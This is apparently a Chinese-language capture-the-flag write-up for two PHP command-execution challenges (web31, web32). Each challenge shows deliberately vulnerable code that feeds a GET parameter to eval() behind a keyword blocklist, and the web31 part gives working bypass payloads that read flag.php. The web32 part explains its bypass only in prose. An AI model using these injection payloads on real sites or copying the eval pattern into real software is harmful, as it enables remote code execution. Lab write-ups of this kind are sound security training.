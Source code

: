 # 命令执行

## web31

```php
 <?php

if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```

又过滤了 . 和空格、cat，用重造变量的方法

```php
?c=eval($_GET[1]);&1=echo `tac flag.php`;
官方POC：
利用已知的其他函数来凑出所需要的字符串来绕过

show_source(next(array_reverse(scandir(pos(localeconv())))));

localeconv()：返回包含本地化数字和货币格式信息的关联数组。这里主要是返回数组第一个"."
pos():输出数组第一个元素，不改变指针；
scandir();遍历目录，这里因为参数为"."所以遍历当前目录
array_reverse():元组倒置
next():将数组指针指向下一个，这里其实可以省略倒置和改变数组指针，直接利用[2]取出数组也可以
show_source():查看源码
```

## web32

```php
 <?php
 
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```

这题又过滤了echo，反引号，分号以及单括号，单括号，分号可以用?>绕过，因为PHP最后一条语句不需要分号，单括号过滤的绕过可以使用include替代，之后配合php伪协议读取flag.php源码
